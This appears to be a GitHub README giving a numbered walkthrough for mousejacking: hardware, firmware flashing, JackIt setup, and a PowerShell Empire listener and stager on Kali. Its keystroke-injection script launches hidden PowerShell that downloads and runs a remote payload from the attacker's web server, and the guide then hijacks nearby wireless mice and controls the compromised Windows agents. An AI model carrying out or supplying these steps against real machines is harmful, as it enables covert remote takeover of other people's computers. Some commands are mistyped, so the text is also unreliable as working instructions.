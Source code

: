 ### MOUSE JACKING 

## REQUIREMENTS :-

crazy radio PA usb adapter (chip nRF 24L)

=> MINI RASPBERRY PI 0

=> 3.5/3.7 v BATTERY

## GITHUB LINK :->
https://github.com/insecurityofthings/jackit

## RASPBERRY PI COMMANDS :=>

Step 1 :->  sudo apt-get update
Step 2 :->  sudo apt-get upgrade
Step 3 :->  sudo apt-get install sdcc binutils python python-pip git openssh-server
Step 4 :->  pip install -U pip
Step 5 :->  pip install -U -I pyusb
Step 6 :->  pip install -U platformio
Step 7 :->  gitclone https://github.com/BastilleResearch/nrf-research-firmware
Step 8 :->  cd nrf-research-firmware
Step 9 :->  ls
Step 10 :->  sudo make
Step 11 :->  connect usb dongle to raspberry pi 
Step 12 :->  type => sudo make install
Step 13 :->  gitclone https://github.com/insecurityofthings/jackit.git
Step 14 :->  cd..
Step 15 :->  cd jackit
Step 16 :->  cat requirements.txt
Step 17 :->  sudo pip install -r requirements.txt
Step 18 :->  cd nrf-research-firmware
Step 19 :->  cd tools
Step 20 :->  cd jackit
Step 21 :->  sudo touch pspwn
Step 22 :->  sudo vi pspwn
Step 23 :->  GUI r
Step 24 :->  DELAY 200
Step 25 :->  STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')"     ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))  
Step 26 :->  enter  =>>  PRESS ESC  =>>  TYPE wq:!  =>>  press ENTER (to save the file)

### to search the listner :=>> 

Step 27 :->  sudo python nrf24-scanner.py -L
Step 28 :->  CTRL + C

## USING EMPIRE IN KALI-LINUX ATTACKER MACHINE

Step 29 :->  sudo apt-get update
Step 30 :->  sudo apt-get upgrade
Step 31 :->  sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig
Step 32 :->  sudo pip install pycrypto iptools pydispatcher flask
Step 33 :->  sudo git clone https://github.com/powershellEmprie/Empire.git
Step 34 :->  cd Empire/setup
Step 35 :->  sudo ./install.sh
Step 36 :->  enter
Step 37 :->  cd..
Step 38 :->  cd ./Empire
Step 39 :->  listeners
Step 40 :->  info
Step 41 :->  set name filename(example pspwn)
Step 42 :->  set host http://apachewebserverIP ADDRESS:8080
Step 43 :->  execute
Step 44 :->  list
Step 45 :->  use stager launcher
Step 46 :->  set Listener filename(example pspwm)
Step 47 :->  set Base64 False
Step 48 :->  set Outfile filename.ps1(example pspwn.ps1)
Step 49 :->  generate
Step 50 :->  exit  =>>  ls
Step 51 :->  now copy the file to apache web server folder
Step 52 :->  sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)
Step 53 :->  sudo ./Empire

## JACKIT TERMINAL 

Step 54 :->  sudo python jackit.py --script pspwn 
Step 55 :->  cntrl + C
Step 56 :->  enter the key no of the mouse targets on the screen for example 1 ,2 ,3.

## KALI LINUX EMPIRE TERMINAL

Step 57 :->  agents
Step 58 :->  interact agentname
Step 59 :->  ls
Step 60 :->  getpid
Step 61 :->  getuid
Step 60 :->  cd c:\Users\ (to run powershell service) 
